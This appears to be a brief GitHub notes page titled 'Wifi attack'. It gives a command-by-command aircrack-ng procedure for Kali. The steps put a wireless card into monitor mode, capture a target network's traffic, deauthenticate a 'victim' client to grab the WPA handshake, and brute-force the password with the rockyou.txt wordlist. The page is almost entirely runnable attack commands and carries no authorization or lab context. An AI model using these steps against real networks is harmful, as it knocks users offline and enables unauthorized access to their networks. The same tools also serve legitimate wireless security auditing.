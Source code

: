 # Wifi attack

### 1. Switch mode from managed to monitor

```bash
airmon-ng start wlan0
```

To check if monitor mode is on:
(Name of Wi-Fi card could be changed wlan0 --> wlan0mon)

```bash
iwconfig
```

### 2. Show all of the traffic 

```bash 
airodump-ng wlan0

Show network specific traffic:
airodump-ng -d "AP_MAC" -w "DUMPFILE_NAME" -c "CHANNEL" wlan0
```

Keep airodump open

### 3. Send de-auth packets to victim client 

```bash
aireplay-ng -0 10 -a "AP_MAC" -c "VICTIM_MAC" wlan0
```

Might take a few tries (repeat command if necessary)
If successful, airodump will show ```WPA handshake: "AP_MAC"``` --> close airodump

### 4. Crack the password
This method uses the rockyou.txt wordlist to crack the password by brute force

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt "DUMPFILE_NAME.cap"
```


Tip:
Unpack .gz file: gzip -d "filename.gz"

#Kali
